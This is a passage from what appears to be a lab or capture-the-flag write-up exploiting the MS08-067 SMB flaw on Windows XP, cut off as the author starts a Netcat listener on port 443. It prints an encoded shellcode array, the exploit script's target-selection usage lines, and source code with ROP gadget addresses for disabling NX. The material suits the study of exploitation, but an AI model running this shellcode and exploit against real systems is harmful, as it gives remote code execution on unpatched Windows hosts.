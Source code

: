 ```
shellcode += b"\xde\x82\x1d\xf3\xde\xaa\xa7\xbc\x51\x22\xb2"
shellcode += b"\x66\x19\xa8\x48\xdb\x84\xc8\x5d\xbb\xe6\xc0"
shellcode += b"\x4d\xb2\x35\x4b\xab\xd9\x9e\x94\x1a\xdb\x17"
shellcode += b"\x67\x39\xd2\x71\x17\xc8\x73\xfa\xce\xb2\xfd"
shellcode += b"\x86\xb7\xa1\xdb\x7e\x77\xef\xe5\x71\x17\x25"
shellcode += b"\xd0\xe3\xa6\x4d\x3a\x6d\x95\x1a\xe4\xbf\x34"
shellcode += b"\x27\xa1\xd7\x94\xaf\x4e\xe8\x05\x09\x97\xb2"
shellcode += b"\xc3\x4c\x3e\xca\xe6\x5d\x75\x8e\x86\x19\xe3"
shellcode += b"\xd8\x94\x1b\xf5\xd8\x8c\x1b\xe5\xdd\x94\x25"
shellcode += b"\xca\x42\xfd\xcb\x4c\x5b\x4b\xad\xfd\xd8\x84"
shellcode += b"\xb2\x83\xe6\xca\xca\xae\xee\x3d\x98\x08\x6e"
shellcode += b"\xdf\x67\xb9\xe6\x64\xd8\x0e\x13\x3d\x98\x8f"
shellcode += b"\x88\xbe\x47\x33\x75\x22\x38\xb6\x35\x85\x5e"
shellcode += b"\xc1\xe1\xa8\x4d\xe0\x71\x17"
```


#### Selecting the Target Version

```
Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
```

The script requires specifying the target's Windows version and service pack. 

The exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell. For different version of Windows, the addresses of those gadgets will be different. For example, from the source:

```
        elif (self.os == '4'):
            print('Windows 2003 SP1 English\n')
            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
            jumper = disableNXjumper % (
                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
```

Based on the enumeration results, I identified the target as **Windows XP SP3 English (NX)**. 


#### **Running the Exploit**

With the shellcode in place and the target version selected, I set up a Netcat listener on port `443`:
